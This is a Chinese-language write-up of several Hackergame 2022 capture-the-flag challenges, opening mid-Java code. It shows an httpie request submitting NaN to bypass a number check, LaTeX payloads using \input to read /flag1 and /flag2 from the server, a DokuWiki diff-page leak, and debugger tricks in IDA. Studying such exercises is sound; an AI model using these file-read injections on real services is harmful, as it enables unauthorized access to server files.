                if (result.isPresent()) throw new XMLStreamException();
                try {
                    var guess = Double.parseDouble(event.asCharacters().getData());

                    var isLess = guess < this.number - 1e-6 / 2;
                    var isMore = guess > this.number + 1e-6 / 2;

                    var isPassed = !isLess && !isMore;
                    var isTalented = isPassed && this.previous.isEmpty();

                    var newPassed = isPassed ? this.passed + 1 : this.passed;
                    var newTalented = isTalented ? this.talented + 1 : this.talented;
                    var newNumber = isPassed ? RNG.nextInt(1, 1000000) * 1e-6 : this.number;
                    var newPrevious = isPassed ? OptionalDouble.empty() : OptionalDouble.of(guess);

                    result = Optional.of(new State(this.token, newPassed, newTalented, newNumber, newPrevious));
                } catch (NumberFormatException e) {
                    throw new XMLStreamException(e);
                }
            }
        }
        if (!nameStack.empty()) throw new XMLStreamException();
        if (result.isEmpty()) throw new XMLStreamException();
        return result.get();
    }
}
```

</CH.Code>
然后又是大大的面向对象的 [_`GuessNumber`_ 类](focus://GuessNumber#1:30). 还有为什么要用三个空格缩进。。。

我们在 _`State`_ 类的 [_`collect`_ 方法](focus://State.collect#22:33) (你可以把鼠标放在加下划虚线的文字上，kxxt 会自动给您高亮相关代码)和 [_`update`_ 方法](focus://State.update#21:32)中可以发现一个致命的漏洞：

它们判断一个数和被猜数字是否相等的逻辑是：如果这个数既不大于被猜数也不小于被猜数，那么就通过。

</CH.Section>

然而，众所周知，`NaN` 既不大于任何一个数，也不小于任何一个数。所以我们把 `NaN` 交上去就过了。

万恶的网页交不了 `NaN`. 欺负我在用手机做题是吧？我掏出了 termux, 熟练的使用 `pip` 安装了 `httpie`。然后左一个 `POST` 右一个 `GET` 就把它干掉了。

```shell 命令行
$ http POST 202.38.93.111:18000/state 'Authorization: Bearer 你的token' <<< '<state><guess>NaN</guess></state>'
HTTP/1.1 204 No Content
Date: Fri, 28 Oct 2022 09:14:34 GMT


$ http GET 202.38.93.111:18000/state 'Authorization: Bearer 你的token'
HTTP/1.1 200 OK
Content-length: 155
Content-type: text/xml;charset=utf-8
Date: Fri, 28 Oct 2022 09:16:08 GMT

<?xml version="1.0" ?>
<state>
<name>534</name>
<passed>1</passed>
<talented>1</talented>
<flag>flag{gu3ss-n0t-a-numb3r-1nst3ad-ca5760cf631aba18}</flag>
</state>
```

# Write Up Part II

## LaTeX 机器人

:::question

在网上社交群组中交流数学和物理问题时，总是免不了输入公式。而显然大多数常用的聊天软件并不能做到这一点。为了方便大家在水群和卖弱之余能够高效地进行学术交流，G 社的同学制作了一个简单易用的将 LaTeX 公式代码转换成图片的网站，并通过聊天机器人在群里实时将群友发送的公式转换成图片发出。

这个网站的思路也很直接：把用户输入的 LaTeX 插入到一个写好头部和尾部的 TeX 文件中，将文件编译成 PDF，再将 PDF 裁剪成大小合适的图片。

“LaTeX 又不是被编译执行的代码，这种东西不会有事的。”

物理出身的开发者们明显不是太在意这个网站的安全问题，也没有对用户的输入做任何检查。

那你能想办法获得服务器上放在根目录下的 flag 吗？

**纯文本**

第一个 flag 位于 `/flag1`，flag 花括号内的内容由纯文本组成（即只包含大写小写字母和数字 0-9）。

**特殊字符混入**

第二个 flag 位于 `/flag2`，这次，flag 花括号内的内容除了字母和数字之外，还混入了两种特殊字符：下划线（`_`）和井号（`#`）。你可能需要想些其他办法了。

:::

### flag1

flag1 很简单，直接用 `\input` 宏把 `/flag1` 文件读进来就行。



花括号被 $\LaTeX$ 吃掉了，填 flag 的时候自己补上就行。

### flag2

flag2 卡了我很久。后来 Google 搜索 `latex raw text` 得到的[第一个结果](https://tex.stackexchange.com/questions/422197/latex-environment-to-write-in-plain-text-mode) 中提到了一个定义新的 environment 使得 `$`, `&`, `#`, `^`, `_`, `~`, `%` 这些特殊字符能够被显示出来的方法。

<CH.Section>

根据 `base.tex`, `latex_to_image_converter.sh`  的内容，我们可以确定[加入了我们的输入之后 `tex` 文件的样子](focus://result.tex#3:5)：

<CH.Code style={{height: 300}}>

```tex base.tex
\documentclass[preview]{standalone}
\begin{document}
$$
$$
\end{document}
```

```shell latex_to_image_converter.sh
#!/bin/bash
set -xe
head -n 3 /app/base.tex > /dev/shm/result.tex
cat /dev/shm/input.tex >> /dev/shm/result.tex
tail -n 2 /app/base.tex >> /dev/shm/result.tex
cd /dev/shm
pdflatex -interaction=nonstopmode -halt-on-error -no-shell-escape result.tex
pdfcrop result.pdf
mv result-crop.pdf result.pdf
pdftoppm -r 300 result.pdf > result.ppm
pnmtopng result.ppm > $1
OMP_NUM_THREADS=1 convert $1 -trim $1
```

```tex result.tex
\documentclass[preview]{standalone}
\begin{document}
$$
我们的输入
$$
\end{document}
```

</CH.Code>

</CH.Section>

那么我们把下面的 payload 交给 $\LaTeX$ 机器人就可以得到 flag2(可怜的花括号还是照样会被吃掉。。。)

```tex payload.tex
\newenvironment{simplechar}{\catcode`\$=12    \catcode`\&=12    \catcode`\#=12    \catcode`\^=12    \catcode`\_=12    \catcode`\~=12    \catcode`\%=12 }{} \begin{simplechar}\input{/flag2}\end{simplechar}
```



## Flag 的痕迹

:::question

小 Z 听说 Dokuwiki 配置很简单，所以在自己的机器上整了一份。可是不巧的是，他一不小心把珍贵的 flag 粘贴到了 wiki 首页提交了！他赶紧改好，并且也把历史记录（revisions）功能关掉了。

「这样就应该就不会泄漏 flag 了吧」，小 Z 如是安慰自己。

然而事实真的如此吗？

> （题目 Dokuwiki 版本基于 2022-07-31a "Igor"）

:::

从自己电脑上运行一个 Dokuwiki  复现一下小 Z 的操作。

```shell
mkdir wiki && docker run -d \
    --name=dokuwiki \
    -e PUID=1000 \
    -e PGID=1000 \
    -e TZ=Europe/London \
    -p 8080:80 \
    -v "$(pwd)/wiki":/config \
    --restart unless-stopped \
    lscr.io/linuxserver/dokuwiki:latest
```

然后进 localhost:8080 编辑首页，再做第二次编辑

我们进入到 revisions 页面，发现它有一个 diff 功能，可以显示改动，而且右边有一个链接 `Link to this comparison view`, 点击之后 url 里的 `do=revisions` 变成了 `do=diff` 。我们可以合理的怀疑小 Z 的 Dokuwiki 没有关掉 diff 功能。我们直接访问 http://202.38.93.111:15004/doku.php?id=start&do=diff 发现我们能够看到小Z 作出的历史改动，便拿到了 flag。



## 安全的在线测评

### 无法 AC 的题目

### 动态数据

## 线路板

## Flag 自动机

:::question

Hackergame 2022 组委会为大家搬来了一台能够自动获取 flag 的机器。然而，想要提取出其中的 flag 似乎没那么简单……

:::

额。。。解压之后我获得了一个 Windows exe... 然而我身为骄傲的 Arch Linux 用户（好吧，其实是衍生的发行版 Garuda Linux）怎么去运行/调试它呢？我我我。。。。直接按下电源键重启到 Windows 11. 

运行 `flag_machine.exe` 发现组委会为大家搬来了一台能够自动获取 flag 的机器。然而鼠标点不到 "狠心夺取" 按钮。那怎么办呢？我的第一反应是直接给窗口发送点击事件，于是便有了下面的 python 代码。

```python click.py
import win32gui
import win32api
import win32.lib.win32con as win32con

hWnd = win32gui.FindWindow(None, "flag 自动机")
print(hWnd)

hWnd1= win32gui.FindWindowEx(hWnd, None, None, None)
def click(x, y):
    lParam = win32api.MAKELONG(x, y)
    win32gui.SendMessage(hWnd1, win32con.WM_LBUTTONDOWN, win32con.MK_LBUTTON, lParam)
    win32gui.SendMessage(hWnd1, win32con.WM_LBUTTONUP, None, lParam)

for x in range(500):
    for y in range(500):
        click(x, y)
```

然而狡猾的组委会会让你这么容易的拿到 flag 吗？当然不会。



于是我就掏出了吃灰多年的 IDA Free, 加载 `flag_machine.exe`, 点击运行按钮。

``` asm IDA.output
70520000: loaded C:\WINDOWS\WinSxS\x86_microsoft.windows.common-controls_6595b64144ccf1df_6.0.22621.436_none_f0ef7eb2d589ad1a\COMCTL32.DLL
77800000: loaded C:\WINDOWS\SysWOW64\msvcrt.dll
76560000: loaded C:\WINDOWS\SysWOW64\win32u.dll
77ADEB10: thread has started (tid=5804) 
77ADEB10: thread has started (tid=8284) 
762D0000: loaded C:\WINDOWS\SysWOW64\gdi32full.dll
763B0000: loaded C:\WINDOWS\SysWOW64\USER32.dll
77A10000: loaded C:\WINDOWS\SysWOW64\msvcp_win.dll
761A0000: loaded C:\WINDOWS\SysWOW64\ucrtbase.dll
778D0000: loaded C:\WINDOWS\SysWOW64\IMM32.DLL
Debugger: thread 8284 has exited (code -1)
Debugger: thread 5804 has exited (code -1)
Debugger: thread 7176 has exited (code -1)
Debugger: process has exited (exit code -1)
```

呃呃呃呃呃呃呃呃。。。 程序直接退出了。这程序还带反调试的？？？

那我就先启动程序，再通过 attach to process 菜单项把 IDA 调试器附加到正在运行的 `flag_machine.exe` 上。



稍微看一下汇编能发现一点有意思的东西，比如 `rdata` 段里有 `flag_machine.txt` 这段文字。可惜 flag 本身并没有被明文存储在 `rdata` 段里。

然后我们再来找一下程序在哪里调用了 Windows 的 `GetMessageA` 函数接收窗口的事件消息。



发现这个库函数只在 `sub_401A2C` 中被调用。那么，`sub_401A2C` 或许就是我们取得 flag 的关键了。

然而跳过去一看并没有什么值得关注的东西。。。

那么就来关注一下程序在那里调用了 `fopen` 吧，我盲猜程序会把 flag 写到 `flag_machine.txt` 这个文件里。

果然，调用 `fopen` 的那段代码同时还会弹窗显示 `Congatulations` 祝贺我们。那么这就是我们获得 flag 的关键。



切到 Graph View 来康康这个子过程（红框标出了我们要跳转到的目标代码）：



从第一个块的最后一行条件跳转那里加一个断点，从这个子过程负责的任务来看，程序是肯定会命中这个断点的。

把程序窗口切到前台，程序命中断点之后，我们让程序直接执行红框位置代码：



然后取消断点，让程序继续执行，我们就能在 `flag_machine.txt` 里找到 flag 了。



## 微积分计算小练习

## 杯窗鹅影

### flag1

### flag2

## 二次元神经网络

## 光与影

## 链上记忆大师（Level 1）

## 传达不到的文件

### 读不到

### 打不开

## 看不见的彼方

## 量子藏宝图

## 企鹅拼盘（Level 1-2）

